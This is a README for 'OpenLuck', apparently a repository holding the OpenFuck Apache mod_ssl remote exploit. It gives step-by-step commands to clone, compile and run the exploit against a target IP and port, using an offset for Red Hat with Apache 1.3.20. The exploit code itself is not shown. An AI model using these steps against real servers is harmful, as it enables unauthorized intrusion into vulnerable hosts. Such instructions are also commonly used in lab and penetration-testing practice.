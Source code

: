 # OpenLuck

## Usage

1. Download OpenLuck.c
```
git clone https://github.com/anwarbil/Lucky.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o Open OpenLuck.c -lcrypto
````

4. Running the Exploit
```
./Open
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./Open 0x6a 192.168.80.145 443 -c 40
```

